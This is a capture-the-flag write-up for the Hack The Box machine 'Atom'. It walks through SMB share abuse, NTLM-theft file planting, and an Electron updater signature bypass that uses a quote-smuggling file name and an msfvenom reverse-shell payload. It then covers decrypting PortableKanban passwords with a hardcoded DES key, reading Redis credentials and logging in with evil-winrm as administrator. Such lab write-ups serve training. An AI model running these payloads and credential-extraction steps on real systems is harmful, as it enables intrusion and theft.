

`Box: Windows Medium`
### Index
1. [Box_Info](#Box_Info)
2. [Initial_Nmap_Scan](#Initial_Nmap_Scan)
3. [Web_Enum_Port80](#Web_Enum_Port80)
4. [SMB_Enum](#SMB_Enum)
5. [NTLM_Theft_(Trying_To_Steal_NTLM)](#NTLM_Theft_(Trying_To_Steal_NTLM))
6. [Signature_Validation_Bypass_Leading_RCE_Electron](#Signature_Validation_Bypass_Leading_RCE_Electron)
	1. [Preparing_Payload](#Preparing_Payload)
	2. [Preparing_yml_file](#Preparing_yml_file)
	3. [Getting_the_yml_and_exe_on_the_share](#Getting_the_yml_and_exe_on_the_share)
	4. [Getting_Reverse_Shell](#Getting_Reverse_Shell)
7. [Privilege_Escalation](#Privilege_Escalation)
	1. [Print_uncommented_lines_windows_cmd_powershell](#Print_uncommented_lines_windows_cmd_powershell)
	2. [PortableKanban_Encrypted_Password_Retrival](#PortableKanban_Encrypted_Password_Retrival)
	3. [Connecting_to_redis_db_from_Windows_CLI](#Connecting_to_redis_db_from_Windows_CLI)
### Box_Info
```
Atom is a Medium Windows machine that features a hosting of Electron software. The website hosts a windows version of the application (Electron Builder) where a vulnerability in signature validation can lead to remote command execution and thus get a foothold on system as user jason. By capturing the password of Redis service from configuration file it was possible to get the encrypted password of user Administrator. By using exploitation for the PortableKanban the administrator's password can be decrypted and thus login through winrm to the system.IP target address might differ.
```
### Initial_Nmap_Scan
```
$ sudo nmap -p- --min-rate=1000 -Pn -T4 -sC -sV atom.htb
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Heed Solutions
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Heed Solutions
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Service Info: Hosts: www.example.com, ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h40m01s, deviation: 4h37m10s, median: 0s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-11-24T20:16:36-08:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-11-25T04:16:32
|_  start_date: N/A
```
### Web_Enum_Port80

From Burp Suite
```
Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27 Server at atom.htb Port 80
```
### SMB_Enum
```
# smbclient --no-pass -L //10.10.10.237

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Software_Updates Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.237 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```

```
──(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# smbclient -U '' //10.10.10.237/Software_Updates
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Nov 30 15:46:53 2024
  ..                                  D        0  Sat Nov 30 15:46:53 2024
  client1                             D        0  Sat Nov 30 15:46:53 2024
  client2                             D        0  Sat Nov 30 15:46:53 2024
  client3                             D        0  Sat Nov 30 15:46:53 2024
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 07:18:08 2021

		4413951 blocks of size 4096. 1370263 blocks available
smb: \> get UAT_Testing_Procedures.pdf 
getting file \UAT_Testing_Procedures.pdf of size 35202 as UAT_Testing_Procedures.pdf (180.9 KiloBytes/sec) (average 180.9 KiloBytes/sec)
```

The three client folders are empty. The PDF file has a details about the QA Process.

Looking at the Step 2 of the QA Process says that `...Just place the updates in one of the client folders and the appropriate QA Team will test it to ensure it finds updates and installs it correctly.`
### NTLM_Theft_(Trying_To_Steal_NTLM)
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/ntlm_theft]
└─# python ntlm_theft.py -vv -g all -s 10.10.14.4 -f atom_htb
Created: atom_htb/atom_htb.scf (BROWSE TO FOLDER)
Created: atom_htb/atom_htb-(url).url (BROWSE TO FOLDER)
Created: atom_htb/atom_htb-(icon).url (BROWSE TO FOLDER)
Created: atom_htb/atom_htb.lnk (BROWSE TO FOLDER)
Created: atom_htb/atom_htb.rtf (OPEN)
Created: atom_htb/atom_htb-(stylesheet).xml (OPEN)
Created: atom_htb/atom_htb-(fulldocx).xml (OPEN)
Created: atom_htb/atom_htb.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: atom_htb/atom_htb-(includepicture).docx (OPEN)
Created: atom_htb/atom_htb-(remotetemplate).docx (OPEN)
Created: atom_htb/atom_htb-(frameset).docx (OPEN)
Created: atom_htb/atom_htb-(externalcell).xlsx (OPEN)
Created: atom_htb/atom_htb.wax (OPEN)
Created: atom_htb/atom_htb.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: atom_htb/atom_htb.asx (OPEN)
Created: atom_htb/atom_htb.jnlp (OPEN)
Created: atom_htb/atom_htb.application (DOWNLOAD AND OPEN)
Created: atom_htb/atom_htb.pdf (OPEN AND ALLOW)
Created: atom_htb/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: atom_htb/Autorun.inf (BROWSE TO FOLDER)
Created: atom_htb/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

```
──(root㉿kali)-[/home/…/Downloads/Tools/ntlm_theft/atom_htb]
└─# smbclient -U '' //10.10.10.237/Software_Updates            
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Nov 30 15:57:02 2024
  ..                                  D        0  Sat Nov 30 15:57:02 2024
  client1                             D        0  Sat Nov 30 15:57:02 2024
  client2                             D        0  Sat Nov 30 15:57:02 2024
  client3                             D        0  Sat Nov 30 15:57:02 2024
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 07:18:08 2021

                4413951 blocks of size 4096. 1369852 blocks available
smb: \> cd client1
smb: \client1\> mput *
Put file atom_htb.m3u? yes
putting file atom_htb.m3u as \client1\atom_htb.m3u (0.4 kb/s) (average 0.4 kb/s)
Put file zoom-attack-instructions.txt? yes
putting file zoom-attack-instructions.txt as \client1\zoom-attack-instructions.txt (1.0 kb/s) (average 0.7 kb/s)
Put file atom_htb-(externalcell).xlsx? yes
putting file atom_htb-(externalcell).xlsx as \client1\atom_htb-(externalcell).xlsx (45.0 kb/s) (average 16.2 kb/s)
Put file atom_htb-(url).url? yes
putting file atom_htb-(url).url as \client1\atom_htb-(url).url (0.5 kb/s) (average 12.5 kb/s)
Put file Autorun.inf? yes
putting file Autorun.inf as \client1\Autorun.inf (0.7 kb/s) (average 10.3 kb/s)
Put file atom_htb-(fulldocx).xml? yes
putting file atom_htb-(fulldocx).xml as \client1\atom_htb-(fulldocx).xml (358.0 kb/s) (average 98.5 kb/s)
Put file atom_htb.wax? yess
putting file atom_htb.wax as \client1\atom_htb.wax (0.5 kb/s) (average 86.4 kb/s)
Put file atom_htb.jnlp? yes
putting file atom_htb.jnlp as \client1\atom_htb.jnlp (1.7 kb/s) (average 77.1 kb/s)
Put file atom_htb-(remotetemplate).docx? yes
putting file atom_htb-(remotetemplate).docx as \client1\atom_htb-(remotetemplate).docx (167.8 kb/s) (average 89.1 kb/s)
Put file atom_htb.application? yes
putting file atom_htb.application as \client1\atom_htb.application (14.1 kb/s) (average 82.3 kb/s)
Put file atom_htb-(frameset).docx? yes
putting file atom_htb-(frameset).docx as \client1\atom_htb-(frameset).docx (90.8 kb/s) (average 83.0 kb/s)
Put file atom_htb-(stylesheet).xml? yes
putting file atom_htb-(stylesheet).xml as \client1\atom_htb-(stylesheet).xml (1.4 kb/s) (average 76.7 kb/s)
Put file atom_htb.scf? yes
putting file atom_htb.scf as \client1\atom_htb.scf (0.7 kb/s) (average 71.5 kb/s)
Put file atom_htb.asx? yes
putting file atom_htb.asx as \client1\atom_htb.asx (1.2 kb/s) (average 66.6 kb/s)
Put file atom_htb-(icon).url? yes
putting file atom_htb-(icon).url as \client1\atom_htb-(icon).url (0.8 kb/s) (average 62.0 kb/s)
Put file atom_htb.pdf? yes
putting file atom_htb.pdf as \client1\atom_htb.pdf (6.5 kb/s) (average 58.8 kb/s)
Put file atom_htb.htm? yes
putting file atom_htb.htm as \client1\atom_htb.htm (0.7 kb/s) (average 55.7 kb/s)
Put file atom_htb.rtf? yes
putting file atom_htb.rtf as \client1\atom_htb.rtf (0.9 kb/s) (average 53.0 kb/s)
Put file atom_htb.lnk? yes
putting file atom_htb.lnk as \client1\atom_htb.lnk (19.0 kb/s) (average 51.4 kb/s)
Put file desktop.ini? yes
putting file desktop.ini as \client1\desktop.ini (0.4 kb/s) (average 49.0 kb/s)
Put file atom_htb-(includepicture).docx? yes
putting file atom_htb-(includepicture).docx as \client1\atom_htb-(includepicture).docx (86.0 kb/s) (average 50.7 kb/s)
smb: \client1\> yes
yes: command not found
smb: \client1\> dir
  .                                   D        0  Sat Nov 30 15:57:59 2024
  ..                                  D        0  Sat Nov 30 15:57:59 2024
  atom_htb-(externalcell).xlsx        A     5856  Sat Nov 30 15:57:38 2024
  atom_htb-(frameset).docx            A    10223  Sat Nov 30 15:57:48 2024
  atom_htb-(fulldocx).xml             A    72584  Sat Nov 30 15:57:42 2024
  atom_htb-(icon).url                 A      107  Sat Nov 30 15:57:52 2024
  atom_htb-(includepicture).docx      A    10216  Sat Nov 30 15:57:59 2024
  atom_htb-(remotetemplate).docx      A    26283  Sat Nov 30 15:57:46 2024
  atom_htb-(stylesheet).xml           A      162  Sat Nov 30 15:57:49 2024
  atom_htb-(url).url                  A       55  Sat Nov 30 15:57:39 2024
  atom_htb.application                A     1649  Sat Nov 30 15:57:47 2024
  atom_htb.asx                        A      146  Sat Nov 30 15:57:51 2024
  atom_htb.htm                        A       78  Sat Nov 30 15:57:55 2024
  atom_htb.jnlp                       A      191  Sat Nov 30 15:57:45 2024
  atom_htb.lnk                        A     2164  Sat Nov 30 15:57:58 2024
  atom_htb.m3u                        A       48  Sat Nov 30 15:57:34 2024
  atom_htb.pdf                        A      769  Sat Nov 30 15:57:54 2024
  atom_htb.rtf                        A      102  Sat Nov 30 15:57:56 2024
  atom_htb.scf                        A       84  Sat Nov 30 15:57:50 2024
  atom_htb.wax                        A       54  Sat Nov 30 15:57:43 2024
  Autorun.inf                         A       78  Sat Nov 30 15:57:40 2024
  desktop.ini                         A       46  Sat Nov 30 15:57:58 2024
  zoom-attack-instructions.txt        A      115  Sat Nov 30 15:57:36 2024

	4413951 blocks of size 4096. 1369653 blocks available
smb: \client1\>
```

After waiting for like 10 to 15 minutes, nothing pops up in Responder
```

[+] Current Session Variables:
    Responder Machine Name     [WIN-G4EEXTNSYGY]
    Responder Domain Name      [PFY1.LOCAL]
    Responder DCE-RPC Port     [48979]

[+] Listening for events...                                                                                                                               
```
### Signature_Validation_Bypass_Leading_RCE_Electron
Looking at https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html Blog post, I found that i will need to prepare a .yml file that will gets on the smb share on one of the client folder along with the payload.exe file. 

###### Little_Background_of_Vulnerability
While reading the above blog, I read the following line few times to understand the finding and curious to understand why the payload.exehas to be name as `p'ayload.exe`. 
```
Since the `${tempUpdateFile}` variable is provided unescaped to the `execFile` utility, an attacker could bypass the entire signature verification by triggering a parse error in the script.
```
Looking at the code mentioned in the blog
```
execFile("powershell.exe", ["-NoProfile", "-NonInteractive", "-InputFormat", "None", "-Command", `Get-AuthenticodeSignature '${tempUpdateFile}' | ConvertTo-Json -Compress`], {
      timeout: 20 * 1000
```

Notice how the '${tempUpdateFile}' is declared with two single quotes. if you get a one single quote in your malicious exe (P'ayload.exe) than the program will treat it as the end of the single quote. So your `P'ayload.exe` will translate to `ayload.exe` on the other side and will execute your exe.

###### Preparing_Payload
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe -o payload.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: payload.exe
```
###### Preparing_yml_file
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# cat latest.yml                 
version: 2.2.2
files:
  - url: p'ayload.exe
    sha512: EegqVXNMNrsuSuQo/TI3OSo2GkjmX9yW80VtWp3mbXtgkiz45sdYj7Q9WfXjP6YiUEx0MEVZnEkNViJwzAJO9w==
    size: 7168
path: p'ayload.exe
sha512: EegqVXNMNrsuSuQo/TI3OSo2GkjmX9yW80VtWp3mbXtgkiz45sdYj7Q9WfXjP6YiUEx0MEVZnEkNViJwzAJO9w==
releaseDate: '2024-04-23T11:17:02.642Z'
```
###### Getting_the_yml_and_exe_on_the_share
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# smbclient -U '' //10.10.10.237/Software_Updates
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> cd client1
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (3.1 kb/s) (average 3.1 kb/s)
smb: \client1\> put payload.exe p'ayload.exe
putting file payload.exe as \client1\p'ayload.exe (72.2 kb/s) (average 37.3 kb/s)
smb: \client1\> dir
  .                                   D        0  Sun Dec  1 23:04:11 2024
  ..                                  D        0  Sun Dec  1 23:04:11 2024
  latest.yml                          A      316  Sun Dec  1 23:04:04 2024
  p'ayload.exe                        A     7168  Sun Dec  1 23:04:11 2024

                4413951 blocks of size 4096. 1371339 blocks available
smb: \client1\> exit
```
###### Getting_Reverse_Shell
```
┌──(ringbuffer㉿kali)-[~/Downloads]
└─$ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.237] 50303
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
atom\jason
```
Get your user flag.
### Privilege_Escalation

###### Print_uncommented_lines_windows_cmd_powershell
```
PS C:\Program Files\redis> Get-Content redis.windows.conf | Where-Object { $_ -notmatch '^\s*#' -and $_ -ne '' }
```

Looking at the Jason's Download directory, I am seeing two folders.
```
C:\Users\jason\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of C:\Users\jason\Downloads

04/02/2021  07:00 AM    <DIR>          .
04/02/2021  07:00 AM    <DIR>          ..
03/31/2021  01:36 AM    <DIR>          node_modules
04/02/2021  07:21 PM    <DIR>          PortableKanban
	   0 File(s)              0 bytes
	   4 Dir(s)   5,170,089,984 bytes free
```
Googling the `PortableKanban`, found one of the Exploit-DB exploit - https://www.exploit-db.com/exploits/49409 
```
# PortableKanBan stores credentials in an encrypted format
# Reverse engineering the executable allows an attacker to extract credentials from local storage
# Provide this program with the path to a valid PortableKanban.pk3 file and it will extract the decoded credentials
```
###### PortableKanban_Encrypted_Password_Retrival
Looking inside the `PortableKanban` directory, We are seeing the following files.
```
C:\Users\jason\Downloads\PortableKanban>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of C:\Users\jason\Downloads\PortableKanban

04/02/2021  07:21 PM    <DIR>          .
04/02/2021  07:21 PM    <DIR>          ..
02/27/2013  07:06 AM            58,368 CommandLine.dll
11/08/2017  12:52 PM           141,312 CsvHelper.dll
06/22/2016  08:31 PM           456,704 DotNetZip.dll
04/02/2021  06:44 AM    <DIR>          Files
11/23/2017  03:29 PM            23,040 Itenso.Rtf.Converter.Html.dll
11/23/2017  03:29 PM            75,776 Itenso.Rtf.Interpreter.dll
11/23/2017  03:29 PM            32,768 Itenso.Rtf.Parser.dll
11/23/2017  03:29 PM            19,968 Itenso.Sys.dll
11/23/2017  03:29 PM           376,832 MsgReader.dll
07/03/2014  09:20 PM           133,296 Ookii.Dialogs.dll
04/02/2021  06:17 AM    <DIR>          Plugins
04/02/2021  07:22 PM             5,920 PortableKanban.cfg
01/04/2018  08:12 PM           118,184 PortableKanban.Data.dll
01/04/2018  08:12 PM         1,878,440 PortableKanban.exe
01/04/2018  08:12 PM            31,144 PortableKanban.Extensions.dll
04/02/2021  06:21 AM               172 PortableKanban.pk3.lock
09/06/2017  11:18 AM           413,184 ServiceStack.Common.dll
09/06/2017  11:17 AM           137,216 ServiceStack.Interfaces.dll
09/06/2017  11:02 AM           292,352 ServiceStack.Redis.dll
09/06/2017  03:38 AM           411,648 ServiceStack.Text.dll
01/04/2018  08:14 PM         1,050,092 User Guide.pdf
              19 File(s)      5,656,416 bytes
               4 Dir(s)   5,169,561,600 bytes free

```

Copying the Configuration file `PortableKanban.cfg` to our Kali Machine
```
C:\Users\jason\Downloads\PortableKanban>copy PortableKanban.cfg \\10.10.14.4\a
copy PortableKanban.cfg \\10.10.14.4\a
        1 file(s) copied.
```
Looking at the Configuration file, We got the encrypted password.
```
"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"
```
Using the Exploit we found earlier, we can try to decrypt the above password but first I need to make changes. 
Modifying the above script
```
import json
import base64
from des import * #python3 -m pip install des
import sys

try:
        path = sys.argv[1]
except:
        exit("Supply path to PortableKanban.pk3 as argv1")

def decode(hash):
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print(f'Decrypted Password: {decode(sys.argv[1])}')

```

Running the above script gave us the decrypted password
```
┌──(venv)─(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# python3 Decrypt_Kanban.py "Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"
Decrypted Password: kidvscat_yes_kidvscat
```

looking at the password, it is the same database password that we can see in the following REDIS Server configuration file.
```
PS C:\Program Files\Redis> Get-Content redis.windows.conf | Where-Object { $_ -notmatch '^\s*#' -and $_ -ne '' }

requirepass kidvscat_yes_kidvscat
port 6379
...
dbfilename dump.rdb
```

###### Connecting_to_redis_db_from_Windows_CLI
```
PS C:\Program Files\Redis> .\redis-cli.exe -h 10.10.10.237
.\redis-cli.exe -h 10.10.10.237
auth kidvscat_yes_kidvscat
OK
keys *
pk:ids:User
pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff
pk:ids:MetaDataClass
pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0


get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}
```
Let's breakdown the above commands
- keys *  = Returns all keys matching pattern ([Redis-CLI-Docs](https://redis.io/docs/latest/commands/keys/)) This command gets us the key for the user `e8e29158-d70d-44b1-a1ba-4949d52790a0`. 
- get = Get the value of the key. In here we got the encrypted password.

We got the encrypted password for the admin. Using the same script above, we can get the decrypted password.

```
┌──(venv)─(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# python3 Decrypt_Kanban.py "Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"
Decrypted Password: kidvscat_admin_@123
```

```
──(venv)─(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# evil-winrm -i 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'  
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
065b6c8ee722ff4ed0f2d653f3398e86
```

Get your root flag.